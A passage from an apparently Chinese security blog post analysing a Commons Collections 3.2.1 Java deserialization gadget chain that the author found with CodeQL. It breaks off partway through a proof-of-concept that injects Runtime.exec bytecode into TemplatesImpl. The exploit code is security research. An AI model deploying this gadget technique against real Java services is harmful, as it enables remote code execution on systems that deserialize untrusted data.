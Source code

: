 # 前言

最近在学习CodeQL，对CC链进行了一次挖掘，在3.2.1版本中找到了一些可以利用的链子，如今对最短的一条编写了POC，顺便来分析一下，除此之外，还有二次反序列化的链子，这里就不分析了

![image-20230206130149743](images/1.png)

这里为了方便，将CloneTransformer换成了FactoryTransfomer

主要是这里的DefaultedMap只有在3.2.1才能利用

# 漏洞复现

```
package CC;

import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.collections.FastHashMap;
import org.apache.commons.collections.functors.FactoryTransformer;
import org.apache.commons.collections.functors.InstantiateFactory;
import org.apache.commons.collections.map.DefaultedMap;

import javax.xml.transform.Templates;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Hashtable;


public class CCD {
    public static void main(String[] args) throws Exception {
        ClassPool pool = ClassPool.getDefault();
        CtClass STU = pool.makeClass("T0WN");
        String cmd = "java.lang.Runtime.getRuntime().exec(\"open /System/Applications/Calculator.app\");";
        STU.makeClassInitializer().insertBefore(cmd);
        STU.setSuperclass(pool.get(AbstractTranslet.class.getName()));
        STU.writeFile();
        byte[] classBytes = STU.toBytecode();
        byte[][] targetByteCodes = new byte[][]{classBytes};

        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        setFieldValue(templates,"_name","DawnT0wn");
        setFieldValue(templates,"_class",null);
        setFieldValue(templates,"_bytecodes",targetByteCodes);

```